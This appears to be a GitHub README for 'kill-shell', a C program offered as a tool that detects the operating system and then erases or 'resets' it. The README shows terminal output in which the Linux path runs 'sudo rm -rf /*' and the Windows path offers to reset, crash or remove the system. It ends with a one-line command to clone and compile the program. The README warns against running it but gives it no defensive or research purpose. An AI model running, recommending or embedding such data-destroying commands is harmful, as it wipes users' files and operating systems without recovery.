 # kill-shell
simple c program thats spawns a shell wants executed, this shell will detect your os and upon entering will erase or reset the system V1.0

# warning
THIS SHELL WILL KILL OR RESET YOUR SYSTEM, FOR LINUX THIS WILL AUTOMATICALLY KILL EVERYTHING ON YOUR DESK AND REMOVE THE ROOT SYSTEM, YOU HVAE BEEN WARNED, DO NOT COMPILE AND EXECUTE IF YOU ARE NOT GOING TO USE IT 

features 

CROSS PLATFORM FOR WIN64, WIN32, Linux
```
shell

***********************************************
*         GHOST UTERM FOR OS-REM              *
*           2021-10-16 08:07:25               *
*                                             *
***********************************************
[-] Operating System Detected -> linux

[-] Using -> sudo rm -rf /*

--------------------- Listed/Avalible commands ---------------------
[+] Press Enter : Will continue with the deletion/factory reset process

 >>>>^C

```

#secondary shell if the OS isnt a range 

```
***********************************************
*         GHOST UTERM FOR OS-REM              *
*           2021-10-16 08:23:37               *
*                                             *
***********************************************
Operating System -> windows

[?] This OS is recognizeed as a windows system

[?] Would you like to reset, crash, or remove it

[?] re - reset |      
Options -> re

[+] Starting command.....

[+] Executing......

```


#all in one command 
linux
```
git clone https://github.com/ArkAngeL43/kill-shell.git ; cd kill-shell ; sudo apt-get install gcc ; gcc main.c -o main ; gcc run.c -o run ; clear ; echo '[+] Done'
```

